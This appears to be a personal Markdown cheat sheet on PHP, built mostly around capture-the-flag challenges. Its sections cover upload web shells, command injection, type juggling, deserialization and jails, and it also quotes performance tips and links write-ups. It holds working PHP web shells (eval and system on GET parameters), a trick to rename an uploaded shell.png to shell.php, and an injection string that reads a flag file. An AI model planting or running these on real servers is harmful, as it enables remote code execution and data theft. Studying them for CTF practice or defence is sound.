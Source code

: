 # +

- [GitHub \- apinstein/iphp: An interactive php shell \(REPL\) with support for readline, autocomplete, include/require, and fatal\-error tolerance\.](https://github.com/apinstein/iphp)

- https://github.com/ctfs/write-ups-2015/tree/master/codegate-ctf-2015/web/owlur
- https://www.arneswinnen.net/2013/11/hack-lu-2013-ctf-wannabe-writeup-part-one-web-exploitation/
- http://php.net/manual/en/wrappers.php

```html
<script language=PHP>eval($_GET['q']);</script>
<?php print_r(scandir('/')) ?>
```

```html
<?php echo system($_GET['s']); ?>
```
    > uploaded as shell.png, then uploaded another file: ´cd uploads;cd 6a9btoq20khkn8ln5lfhuo6v62;cp 65-shell.png shell.php´.png

```
flag','..')+or+system('cat+templates/flag.php');//
```

# server

```bash
php -S localhost:8000
```

# performance 

- https://news.ycombinator.com/item?id=2615183
    > As someone who optimized a piece of PHP code recently, there are a number of things I ran into that were counterintuitive wrt performance.
    > - array_key_exists is 5X slower than isset (though there are different semantics)
    > - direct string concatenation is 2X faster than using "implode"
    > - memoization can be a huge win since function calls are 5X slower than array accesses. (No inlining in PHP)
    >
    > Of course, these optimizations don't matter except in your hotspots. (Why we still have to have this disclaimer on HN puzzles me, but people seem to keep trotting out the usual Knuth quote out of context as a way to write off micro-optimization techniques in general.)
    > Also important to keep in mind:
    > - PHP has copy on write semantics for arrays. So if you set $foo = $bar (arrays), you don't incur any additional memory until you alter $foo. (Aside from the additional reference.) Once you change any entry of $foo, PHP makes a copy of the whole thing. (This can result in massive performance and memory bloat if you don't realize its happening.)
    > - PHP arrays are not arrays, but are a hybrid linear array and hashtable. ("one data structure to rule them all.") So, even a simple "array" of integers incurs more than what you'd expect memory wise. In fact, IIRC, an array of integers incurs approximately 100 bytes of memory for each entry. Ouch. There are extensions in new versions of PHP that allow you to use 'real' arrays. If you're stuck using normal PHP arrays, good luck trying to design optimized data structures for the problem at hand.
    > 
    > See also: http://phpbench.com/

# type juggling, weak comparison, magic hashes

```php
<?php
strcmp($_GET['user'], "admin") == 0
// => "admin1"

strcasecmp($_GET['secret'], "0x1337") == 0
// => ["1"]
```

# deserialization

- https://dpalbd.wordpress.com/ctf-writeup-serial-1/
- https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/
- https://www.exploit-db.com/docs/english/44756-deserialization-vulnerability.pdf
- [GitHub \- galdeleon/35c3\_php: Solution for 35c3 php challenge](https://github.com/galdeleon/35c3_php)
    - ~/code/snippets/ctf/web/35c3_php/

# jail

- [GitHub \- splitline/PHPFuck: PHPFuck: \(\(\+\.^\)\) / Using only 7 different characters to write and execute php\.](https://github.com/splitline/PHPFuck)
- https://github.com/terjanq/Flag-Capture/blob/master/MeePwn%202018/omega/README.md#part2
- https://gist.github.com/terjanq/aa39a5a40b8d9b8a8e2a54e747715a2c
    - https://twitter.com/terjanq/status/1257276298550001664
